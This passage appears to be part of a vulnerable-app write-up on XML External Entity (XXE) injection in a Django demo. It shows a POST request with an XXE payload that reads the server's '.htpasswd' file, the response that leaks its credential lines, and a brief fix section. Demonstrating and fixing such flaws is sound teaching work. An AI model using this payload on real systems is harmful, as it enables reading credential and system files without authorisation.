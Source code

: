 ```
csrfmiddlewaretoken=JWfqsl30zc3KMrlGcdYPEJMr65O1Su4Mtn9R1kzBR7DwVcjLqES6DHCEVDrPxMc6&xml=%3C%21DOCTYPE+replace+%5B%3C%21ENTITY+ent+SYSTEM+%22.htpasswd%22%3E+%5D%3E%0D%0A++++%3CuserInfo%3E%0D%0A+++++%3CfirstName%3EJohn%3C%2FfirstName%3E%0D%0A+++++%3ClastName%3E%26ent%3B%3C%2FlastName%3E%0D%0A++++%3C%2FuserInfo%3E
```

Response:

```
HTTP/1.1 200 OK
Date: Sun, 14 Mar 2021 12:33:46 GMT
Server: WSGIServer/0.2 CPython/3.9.2
Content-Type: text/html; charset=utf-8
X-Frame-Options: DENY
Vary: Cookie
Content-Length: 778
X-Content-Type-Options: nosniff
Referrer-Policy: same-origin
Set-Cookie:  csrftoken=zrLfzcEXSsrgxUMCtcDYBc4j4h4dSSOsjSFG8bayan12GFKHHDxfAaUwTPH1xaWM; expires=Sun, 13 Mar 2022 12:33:46 GMT; Max-Age=31449600; Path=/; SameSite=Lax

<a href="/myapp">Back</a>
<div>
  This demonstrates XXE vulnerability. User provided XML input has not been
  sanitized properly.
</div>

<form method="POST">
  <input type="hidden" name="csrfmiddlewaretoken" value="ZKaRZPXVZAs2hlggTwAxYtcTorCAzXbuJb4iyOtwhv2Oq6el7XuOXr26dZfoefjO">
  <label for="xml">XML</label>
  <textarea name="xml"><!DOCTYPE replace [<!ENTITY ent SYSTEM ".htpasswd"> ]>
    <userInfo>
     <firstName>John</firstName>
     <lastName>&ent;</lastName>
    </userInfo></textarea>
  <br />
  <input type="submit" value="Submit" />
</form>

<pre>&lt;?xml version=&quot;1.0&quot; ?&gt;&lt;userInfo/&gt;&lt;userInfo/&gt;
     &lt;firstName/&gt;John&lt;firstName/&gt;
     &lt;lastName/&gt;admin:password
user:password&lt;lastName/&gt;
    &lt;userInfo/&gt;</pre>
```

### Fix

Disable XXE feature and escape input originating from users. In this case it is easily done by utilizing minidom with default settings (XXE is disabled by default).

